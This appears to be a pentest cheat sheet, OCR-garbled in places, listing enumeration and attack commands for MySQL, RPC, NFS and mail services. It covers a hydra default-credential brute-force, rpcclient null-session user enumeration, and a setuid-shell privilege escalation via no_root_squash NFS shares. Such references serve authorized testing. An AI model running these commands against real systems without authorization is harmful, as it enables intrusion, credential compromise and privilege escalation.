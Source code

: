 ## MYSQL

Vulnerability Scanning

> $ nmap -p 3306 --script="+\*mysql\* and not brute and not dos and not fuzzer" -vv -oN mysql &gt; $ip

Deafult Creds

> $ hydra -s 3306 -C /usr/share/sparta/wordlists/mysql-default-userpass.txt -u -f &gt; $ip ftp

Public Exploit

## RPC

Find NFS Port

> $ nmap -p 111 --script=rpcinfo.nse -vv -oN nfs\_port &gt; $ip

Services Running

> $ rpcinfo –p &gt; $ip $ rpcbind -p rpcinfo –p x.x.x.x

Null Session/User Rpc login

> $ rpcclient -U "" &gt; $ip  
> ▪ srvinfo  
> ▪ enumdomusers  
> ▪ enumprivs  
> ▪ enumalsgroups domain  
> ▪ lookupnames administrators  
> ▪ querydominfo  
> ▪ enumdomusers  
> ▪ queryuser john

## NFS

Show Mountable NFS Shares

> $ nmap --script=nfs-showmount -oN mountable\_shares &gt; $ip $ showmount -e &gt; $ip

List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute sid-shell

> $ chown root:root sid-shell; chmod +s sid-shell

## POP3

Enumerating user accounts

> $ nc -nv &gt; $ip 25 $ VRFY user  
> $ USER user  
> $ EXPN user

## SMB&NETBIOS
